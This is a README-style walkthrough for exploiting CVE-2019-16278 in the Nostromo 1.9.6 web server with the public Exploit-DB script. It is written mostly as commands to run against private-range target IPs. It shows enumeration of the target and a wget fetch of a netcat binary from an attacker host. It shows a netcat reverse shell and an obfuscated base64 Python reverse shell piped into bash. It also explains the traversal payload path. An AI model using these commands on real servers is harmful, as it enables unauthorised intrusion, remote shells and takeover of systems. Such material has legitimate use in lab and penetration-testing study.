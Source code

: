 # Nostromo-1.9.6 Exploit Guide

🔧 [Nostromo 1.9.6 Exploit (CVE-2019-16278)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16278)

## 📂 Description
A critical vulnerability exists in Nostromo HTTP Server version 1.9.6, identified as **CVE-2019-16278**. This flaw allows unauthenticated remote attackers to perform directory traversal and execute arbitrary system commands, leading to full system compromise.

---

## 🧩 1. CVE Information and Useful Resources

- 📄 [CVE Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16278)  
- 📝 [Nostromo Exploit Writeup - Hacking Articles](https://www.hackingarticles.in/nostromo-1-9-6-directory-traversal-remote-code-execution/)  
- 💣 [Exploit-DB Entry](https://www.exploit-db.com/exploits/47837)  
- 🧑‍💻 [GitHub - Exploit Code](https://github.com/0x00-0x00/CVE-2019-16278)

---

## 🔧 2. Preparing and Editing the Exploit

Open the exploit script using `vim` for inspection or modifications:
```bash
vim 47837.py
```
Make changes if required—like updating IP addresses, ports, or payloads.

---

## 🚀 3. Executing the Exploit

Basic syntax for using the exploit script:
```bash
python 47837.py <target_ip> <target_port> <command>
```

### Common Enumeration Commands:

Execute `id` command:
```bash
python 47837.py 192.168.1.211 2222 id
```

Check system version:
```bash
python 47837.py 192.168.1.211 2222 "uname -a"
```

Locate Netcat:
```bash
python 47837.py 192.168.1.211 2222 "which nc"
```

Find PHP version:
```bash
python 47837.py 192.168.1.211 2222 "php -v"
```

Check for Python installation:
```bash
python 47837.py 192.168.1.211 2222 "which python"
```

---

## 🐍 4. Compatibility with Python 2.7

Some systems may require Python 2.7 due to compatibility issues.

Test Netcat:
```bash
python2.7 47837.py 192.168.1.208 2222 "nc"
```

Find Netcat location:
```bash
python2.7 47837.py 192.168.1.208 2222 'which nc'
```

Use `whereis` for detailed search:
```bash
python2.7 47837.py 192.168.1.208 2222 'whereis nc'
```

Search for writable directories:
```bash
python2.7 47837.py 192.168.1.208 2222 'find / -writable'
```

### Common Writable Locations:
```
/dev/shm
/tmp
/var/tmp
```

Create a test file in `/tmp`:
```bash
python2.7 47837.py 192.168.1.208 2222 'touch /tmp/1.txt'
```

Create a test file in `/dev/shm`:
```bash
python2.7 47837.py 192.168.1.208 2222 'touch /dev/shm/1.txt'
```

---

## 🔁 5. Reverse Shell Techniques

Download Netcat binary:
```bash
python2.7 47837.py 192.168.31.127 2222  'wget http://192.168.31.57/nc64 -O /tmp/nc64'
```

Launch reverse shell:
```bash
python2.7 47837.py 192.168.1.208 2222 '/tmp/nc64 -e /bin/bash 192.168.1.7 22'
```

Start listener on attacker's machine:
```bash
nc -nlvp 22
```

### Using Base64-Encoded Python Shell:
````bash
python2.7 exploit.py 192.168.1.233 2222 'echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC4xLjgiLDQ0MykpO3MuZHVwMihzLmZpbGVubygpLDApO3MuZHVwMihzLmZpbGVubygpLDEpO3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7cHR5LnNwYXduKCJzaCIpJw==' | base64 -d | bash
````

---

## 🌐 6. Hosting a Simple HTTP Server

Python 2.x:
```bash
python2.7 -m SimpleHTTPServer 80
```

Python 3.x:
```bash
python3 -m http.server 80
```

---

## 🔍 How the Exploit Works

1. **Takes input parameters**: IP, port, command.
2. **Crafts a malicious HTTP POST** request:
   - The path `/.%0d./.%0d./.%0d./.%0d./bin/sh` exploits the path traversal bug.
   - `%0d` (carriage return) bypasses server restrictions.
   - The shell command is embedded in the HTTP body.
3. **Sends the payload** to the vulnerable server.
4. **Displays the command output** returned by the server.

---

## ✅ Quick Reference: Commands and Usage

| Command                  | Purpose                                                   |
|--------------------------|-----------------------------------------------------------|
| `python2.7`              | Runs the exploit using Python 2.7                        |
| `nc`                     | Netcat – used for reverse shells or raw socket access     |
| `touch`                  | Creates an empty file                                    |
| `find / -writable`       | Lists all writable directories                          |
| `base64 -d`              | Decodes a Base64 string                                  |
| `bash`                   | Executes a command shell                                 |
| `SimpleHTTPServer`       | Hosts files via HTTP (Python 2)                         |
| `http.server`            | Hosts files via HTTP (Python 3)                         |

---

